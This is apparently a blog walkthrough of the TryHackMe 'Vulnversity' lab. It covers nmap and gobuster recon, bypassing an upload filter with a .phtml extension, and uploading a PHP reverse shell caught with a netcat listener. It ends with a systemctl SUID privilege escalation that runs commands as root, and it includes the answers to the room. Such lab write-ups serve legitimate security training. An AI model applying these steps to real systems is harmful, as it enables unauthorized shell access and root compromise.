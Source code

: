 ```yaml
---
title: "Vulnversity - TryHackMe"
author: krishna
description: "Walkthrough of Vulnversity from TryHackMe"
date: 2020-10-16 22:22:22 +0530
categories: [writeups, tryhackme]
tags: [privesc, pentest, ctf]
---
```


**[Vulnversity from TryHackMe](https://tryhackme.com/room/vulnversity)**

## Task 1 - Deploy the machine

deployment B), lezz go

## Task 2 - Reconnaissance

1. Scan this box: `nmap -sV <machines ip>`

	![nmap scan results](/assets/thm/vulnversity/vuln1.png)

2. Scan the box, how many ports are open?

	`6`

3. What version of the squid proxy is running on the machine?

	`3.5.12`

4. How many ports will nmap scan if the flag -p-400 was used?

	`400`

5. Using the nmap flag -n what will it not resolve?

	`DNS`

6. What is the most likely operating system this machine is running?

	`Ubuntu`

7. What port is the web server running on?

	`3333`

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Task 3 - Locating directories using GoBuster

1. Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

	![gobuster help](/assets/thm/vulnversity/vuln2.png)

2. What is the directory that has an upload form page?

	![go gobuster](/assets/thm/vulnversity/vuln3.png)
	
	`/internal/`

	![/internal/index.php](/assets/thm/vulnversity/vuln4.png)

## Task 4 - Compromise the webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?

	on uploading a `.php` file,
	
	![hey not allowed](/assets/thm/vulnversity/vuln5.png)

2. To identify which extensions are not blocked, we're going to fuzz the upload form. To do this, we're doing to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please complete our [BurpSuite room](https://tryhackme.com/room/rpburpsuite) first.

	*sucks that the burpsuite room is only for subscribers*

3. Make a wordlist of different php extensions. Use **burpsuite** to send the upload POST request to `intruder` and add *that dollar-like sign* at appropriate places. Then start the attack.

	```terminal
	$ cat phpext_list.txt
	.php
	.php3
	.php4
	.php5
	.phtml
	```

	for some reason, the **intruder**'s sniper attack did not work for me i.e. gave the same response for all extensions. So, upon trying them manually, we get success for **`.phtml`**

4. A reverse php shell is given [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the value of the IP to your IP from the `tun0` interface. Change the extension to `.phtml`. Listen on `1234` through `netcat` with the command `nc -vlnp 1234`. Then upload the shell file, navigate to the file by going to the file URL, `http://$MACHINE_IP:3333/internal/uploads/php_rev_shell.phtml` to make the machine execute your file.

	when we go to the URL,

	![boom access](/assets/thm/vulnversity/vuln6.png)

	now, we have spawned a shell

5. What is the name of the user who manages the webserver?

	the home folders for users are created at `/home/`. `ls /home/` shows us that a user, **`bill`** exists.

6. What is the user flag?

	![yea flag B)](/assets/thm/vulnversity/vuln7.png)

## Task 5 - Privilege Escalation 

1. intro to SUID. find all binaries with SUID.

	to find all such binaries, we can run `find / -perm -4000 2>/dev/null`

	* `find` to search

	* `/` to start from the topmost directory

	* `-perm` to specify permission value

	* `-4000` to specify SUID permission value of exactly 4000

	* `2 > /dev/null` to hide all the errors by redirecting stderr to null stream

	![sweet suid](/assets/thm/vulnversity/vuln8.png)

	`/bin/systemctl` is of importance here as you will see in the next question

2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

	[gtfobins](https://gtfobins.github.io/) is a curated list of unix binaries that can be used for privilege escalation

	[this](https://gtfobins.github.io/gtfobins/systemctl/) gtfobins article on **systemctl** tells us how to exploit it to run any command as superuser

	so taking inspiration from that, we can do this

	```terminal
	$ RFLAG=$(mktemp).service
	$ echo '[Service]
	  Type=oneshot
	  ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/theFLAG"
	  [Install]
	  WantedBy=multi-user.target' > $RFLAG
	$ /bin/systemctl link $RFLAG
	$ /bin/systemctl enable --now $RFLAG
	```

	then to view the flag, `cat /tmp/theFLAG`

	![yea root flag B)](/assets/thm/vulnversity/vuln9.png)
